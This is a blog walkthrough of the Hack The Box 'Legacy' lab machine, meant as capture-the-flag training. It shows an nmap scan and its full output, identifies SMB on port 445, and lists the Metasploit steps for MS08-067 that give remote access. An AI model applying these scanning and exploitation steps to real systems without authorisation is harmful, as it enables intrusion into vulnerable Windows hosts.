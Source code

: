 +++
author = "Jake Rice"
title = "This is my Legacy"
date = "2022-05-25"
description = ""
tags = [
    "HTB",
    "CTF_Walkthrough",
]

featureImage = "https://raw.githubusercontent.com/JRHacka/Blog-Site/main/jrhacka/static/images/Legacy_logo.png"
thumbnail = "https://raw.githubusercontent.com/JRHacka/Blog-Site/main/jrhacka/static/images/Legacy_logo.png"
shareImage = "https://raw.githubusercontent.com/JRHacka/Blog-Site/main/jrhacka/static/images/Legacy_logo.png"

+++
The clever titles just don't stop! This is my walkthrough of the Legacy HTB. Enjoy, find the video below, and reach out if you have any questions. 

<!--more-->
---
## Startup

This is an entry level beginner friendly box, so the walkthrough is going to be the same. With that being said, the first step that other walkthroughs always skip over is spinning up the box and getting connected. While it is easy once you know how to do it if you don't know how you'll never be able to get started. Feel free to skip to the next section if you already know how to do this.

HTB has 2 options when it comes to completing their boxes. You can spin up a machine via HTB, or connect your own using OpenVPN. I prefer to connect my because of the customizations and different tools I have on my Kali machine, but if you want here is where to find the HTB Attack Box.

The first step if you are connecting via OpenVPN is to first make sure you have OpenVPN installed on your device. Either start typing the command see if it autofill’s, or if using Kali run:
```bash
sudo apt install openvpn
```
Once you are sure is installed in the same place where you see the attack box you can select OpenVPN. Change the server if desired and then download the file. Find the file location and run the following command:
```bash
openvpn insert/filepath/here
```

After you have connected you may have to refresh the page in order for the connect box to turn green and show your HTB IP. After that the last step is to find the Jerry box and start it up.
{{% notice note "Heads Up"%}}
That IP in the green box will be the IP you use for yourself during interactions with this box. Do not use your actual IP.
{{% /notice %}}

---

## Intelligence Gathering

The first thing I always like to do is run NMap. Here is the NMap scan I ran and a breakdown of the flags I used.
```bash
nmap -sT -sV -Pn -p- -A -T3 tar.get.ip.add -oA /home/kali/HTB/WU/Legacy/nmap/scans
```
{{% notice tip "NMAP Flags"%}}
-sT = TCP Connect() Scan

-sV = OS Version

-Pn = Scan all ports, and don't ping. (Scans ports no matter what)

-p- = All ports

-A = All

-T3 = Speed level. (Options 1-5 with 1 being slowest and 5 fastest)

-oA = output namp in the three formats to the specified file path.
{{% /notice %}}

While that is running let's go ahead and see if we can find anything at the IP. Open up a web browser and put in the target machines IP address. We don't get any results, but we'll check a couple of the usual directories just in case. I searched around using /admin /login /user /signin /contact and got nothing, so let’s dive in to those NMap results.
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-31 15:13 EDT
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 4.02% done; ETC: 15:13 (0:00:24 remaining)
Nmap scan report for 10.10.10.4
Host is up (0.036s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/31%OT=135%CT=1%CU=33269%PV=Y%DS=2%DC=T%G=Y%TM=62E6D4
OS:75%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS
OS:=0)OPS(O1=M54DNW0NNT00NNS%O2=M54DNW0NNT00NNS%O3=M54DNW0NNT00%O4=M54DNW0N
OS:NT00NNS%O5=M54DNW0NNT00NNS%O6=M54DNNT00NNS)WIN(W1=FAF0%W2=FAF0%W3=FAF0%W
OS:4=FAF0%W5=FAF0%W6=FAF0)ECN(R=Y%DF=Y%T=80%W=FAF0%O=M54DNW0NNS%CC=N%Q=)T1(
OS:R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=N%T=80%W=0%S=Z%A=S%F=AR%O=
OS:%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=FAF0%S=O%A=S+%F=AS%O=M54DNW0NNT00NNS%RD=0%Q=
OS:)T4(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=80%W=0%S=Z%A=
OS:S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF
OS:=N%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=B0%UN=0%RIPL=G
OS:%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=S%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m38s, deviation: 2h07m16s, median: 4d22h57m38s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:bb:84 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-08-06T00:11:25+03:00

TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   37.58 ms 10.10.14.1
2   37.69 ms 10.10.10.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.41 seconds
```

So, we've got one item that really catches my eye in that NMap scan. Port 445 Windows XP microsoft-ds is open and based on previous knowledge a really good place to start.

---
## Port 445 - Windows XP microsoft-ds

In the NMap scan the first thing that should catch your eye is that port 445 is open, and after a quick google you'll quickly find MS08-067. Port 139 and 445 are SMB ports that are used for file transfer, and back in the day it used to run on top of NetBIOS. Now days port 445 TCP can be used for file transfer. When looking for this specific version you do find that there is an exploit for it. 

---


## Exploiting the Vulnerability

From our research we see we can use this exploit via Metasploit. Lets get it spun up and dive in.
```bash
msfconsole
```
Once you have it started we can get it set up.

{{% notice tip "Metasploit Setup"%}}
1-Search MS08-067

2-Use show options

3-Set the rhost as the target IP (set rhost tar.get.ip.add)

4-Set the lhost as your IP (set lhost your.HTB.ip.add)(The IP given to you via HTB (it's in the green box))

5-Use exploit (exploit OR run)
{{% /notice %}}

It works!! Now time to dig around and find the flags. I'll leave that part for you, but feel free to message me if you need a hand!

---

## Walkthrough Video

{{< youtube 39tOHZCG7E0 >}}

<br>
